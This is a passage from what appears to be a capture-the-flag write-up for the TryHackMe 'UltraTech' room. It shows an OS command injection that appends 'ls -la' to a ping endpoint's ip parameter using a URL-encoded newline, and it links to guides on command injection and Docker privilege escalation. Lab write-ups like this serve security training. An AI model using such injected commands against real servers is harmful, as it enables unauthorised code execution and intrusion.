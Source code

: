 ## Alternative Method

A better way to perform OS Command Injection could be done by using the keyword `%0a` (newline):

```
view-source:http://10.10.193.93:8081/ping?ip=10.10.193.93 %0a ls -la
```

Which would have resulted in an output like:

![0a_command_injection](./.images/0a_command_injection.png)

## Resources

1. TryHackMe - UltraTech: https://tryhackme.com/room/ultratech1
2. A Pentester's Guide to Command Injection by Busra Demir: https://blog.cobalt.io/a-pentesters-guide-to-command-injection-df2657c8c1ad
3. Docker Privilege Escalation: https://keiran.scot/privilege-escallation-with-docker-56dc682a6e17